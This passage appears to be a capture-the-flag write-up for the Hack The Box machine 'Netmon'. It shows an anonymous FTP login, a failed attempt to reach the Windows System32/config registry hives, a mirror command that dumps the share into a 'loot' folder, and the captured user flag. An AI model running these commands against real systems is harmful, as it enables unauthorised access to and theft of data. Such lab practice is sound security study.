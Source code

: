 
#### Anonymous login

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon]
└─$ lftp -u 'anonymous,' netmon
lftp anonymous@netmon:~> ls -la
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-26-23  09:40AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
08-23-23  02:28AM       <DIR>          Windows
```

Can't access system hives

```bash
lftp anonymous@netmon:/> cd Windows/System32/config/
cd: Access failed: 550 Access is denied.  (/Windows/System32/config)
```


#### Dump all files

Download all files that is `0~50` MB (Don't wanna download things such as `pagefile`)  ^2e379b

Good for future use of forensics (**Autopsy**)

```bash
mkdir -p loot/ftp && cd loot/ftp
lftp netmon -u anonymous, -e 'set ftp:list-options -a; mirror . . --parallel=40 --only-newer --size-range=0-30M'
```

## Get user flag from ftp share

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon/loot/ftp]
└─$ ls
 inetpub   PerfLogs  'Program Files'  'Program Files (x86)'   Users   Windows

┌──(bravosec㉿fsociety)-[~/htb/Netmon/loot/ftp]
└─$ cd Users

┌──(bravosec㉿fsociety)-[~/…/Netmon/loot/ftp/Users]
└─$ ls
Administrator  Public

┌──(bravosec㉿fsociety)-[~/…/Netmon/loot/ftp/Users]
└─$ cd Public

┌──(bravosec㉿fsociety)-[~/…/loot/ftp/Users/Public]
└─$ ls
Desktop  Documents  Downloads  Music  Pictures  user.txt  Videos

┌──(bravosec㉿fsociety)-[~/…/loot/ftp/Users/Public]
└─$ cat user.txt
48d0a60adac68da21d4b36b9a5648466
```